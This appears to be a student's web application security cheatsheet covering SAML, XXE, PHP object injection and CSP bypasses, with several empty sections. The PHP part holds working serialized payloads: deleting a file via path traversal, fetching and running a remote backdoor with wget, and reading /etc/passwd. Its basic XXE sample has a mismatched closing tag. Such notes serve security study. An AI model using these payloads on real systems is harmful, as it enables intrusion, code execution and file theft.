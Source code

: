 Web Application Security Cheatsheet
===================================

## Table of Contents

_Published 16th April 2018_

- [Session Management](#session-management)  
- [Authentication - OAuth](#authentication-oath) 
- [Authentication - SAML](#authentication-saml)  
- [XML - XML External Entities (XXE)](#xml---xml-external-entities)  
- [PHP Un-serialization](#php-un-serialize)  
- [Advanced XSS - Single Origin Policy (SOP)](#advanced-xss---same-origin-policy)  
- [Advanced XSS - Content Security Policy (CSP)](#advanced-xss---content-security-policy)

## Content

### Session Management
---

### Authentication - OAuth
---

### Authentication - SAML
---

**Reference Text**  
<a href="https://blog.netspi.com/attacking-sso-common-saml-vulnerabilities-ways-find/">Common SAML Implementation Mistakes</a>  
<a href="http://research.aurainfosec.io/bypassing-saml20-SSO/">SAML Raider guide</a>

**SAML Components**  
_Relay State_: a token to reference state information maintained by the Service Provider (SP).  
_SAMLResponse_: the response from the Identity Provider (IDP) containing the base64 encoded Assertion to the SP.

**Generic PoC (COMP6843)**  
1.	Intercept requests between the Service Provider (SP) and Identity Provider (IDP) and grab SAML Assertion.
2.	View SAML Assertion and change the values accordingly.
3.	Forward the payload and profit.

**Remediation**  
<a href="https://www.owasp.org/index.php/Authentication_Cheat_Sheet">OWASP Auth Cheatsheet</a><br>  
<a href="https://www.owasp.org/index.php/SAML_Security_Cheat_Sheet">OWASP SAML Security Cheatsheet</a>

### XML – XML External Entities
---

**Basic XXE Test**
```xml
<!DOCTYPE test [<!ENTITY example "Hello World"> ]>
<test>
  <hello>&example;</hello>
</userInfo>
```
**XML Components**  
_XML DTD (XML Document Type Declaration)_ is used to define the structure of the XML document, with a list of legal elements.  
* Provides a way for applications to share data using a common structure, to verify that the data received is valid.  
* Allows creation of Entities.  

**Exploits**  
Local File Inclusion  
* subtext  

External File Inclusion  
* subtext  

XXE Out of Bounds attack (XXE OOB)  
* subtext

### PHP Un-serialize
---

**PHP Object Injection Summary**  

Allows an attacker to perform _code / sql injection_, _path traversal_ and _denial of service_ attacks due to user-input not being properly sanitised before being passed to the `unseralize()` PHP function.  

Since PHP allows object serialisation, attackers can pass in a malicious string to a vulnerable `unserialize()` call, resulting in arbitrary PHP object injection.  

_See more_: <a href="https://www.owasp.org/index.php/PHP_Object_Injection">PHP Object Injection</a>  
_PHP Magic Methods_: http://php.net/manual/en/language.oop5.magic.php  

**Exploits**

Example: Deleting an arbitrary file via. Path Traversal
```PHP
class Example1 {
   public $cache_file;

   function __construct() {
      // some PHP code...
   }

   function __destruct() {
      $file = "/var/www/cache/tmp/{$this->cache_file}";
      if (file_exists($file)) @unlink($file);
   }
}
// some PHP code...
$user_data = unserialize($_GET['data']);
// some PHP code...

// PAYLOAD //
http://testsite.com/vuln.php?data=O:8:"Example1":1:{s:10:"cache_file";s:15:"../../index.php";}
```

Example: Reverse Shell
```PHP
class PHPObjectInjection
{
   // CHANGE URL/FILENAME TO MATCH YOUR SETUP
   public $inject = "system('wget http://URL/backdoor.txt -O phpobjbackdoor.php && php phpobjbackdoor.php');";
}
// GENERATE ENCODED PAYLOAD
echo urlencode(serialize(new PHPObjectInjection));
```

Example: Local File Disclosure
```
class PHPObjectInjection
{
   // CHANGE URL/FILENAME TO MATCH YOUR SETUP
   public $inject = "system('cat /etc/passwd');";
}

echo urlencode(serialize(new PHPObjectInjection));
//O%3A18%3A%22PHPObjectInjection%22%3A1%3A%7Bs%3A6%3A%22inject%22%3Bs%3A26%3A%22system%28%27cat+%2Fetc%2Fpasswd%27%29%3B%22%3B%7D
//'O:18:"PHPObjectInjection":1:{s:6:"inject";s:26:"system(\'cat+/etc/passwd\');";}'
```

**Remediation**

Do not use unserialize() function with user-supplied input, use JSON functions instead i.e. `json_encode()` / `json_decode()`.
 


### Advanced XSS - Same Origin Policy
---

### Advanced XSS - Content Security Policy
---  

**CSP Summary**  

CSP is a security standard introduced to prevent attacks resulting from execution of malicious content in a trusted page. It allows website owners to declare approved origins of content that browsers should allow to load on that website.    

Example: `script-src userscripts.example.com`  
* Means only `userscripts.example.com` can provide scripts to be executed. INLINE SCRIPTS WON’T WORK.

**CSP Components**  

`none`: matches nothing  
`self`: matches the current origin, but NOT its subdomains  
`unsafe-inline`: allows inline JavaScript and CSS.  
`unsafe-eval`: allows text-to-JavaScript mechanisms like eval  

**CSP Bypass / Exploits**  

_Misconfigurations_: example write-up on Twitter CSP Bypass (misconfiguration)  
_JSONP_: including controlled JavaScript on the domain.  
_Polyglots_: CSP Bypass using Polyglot jpeg/javascript


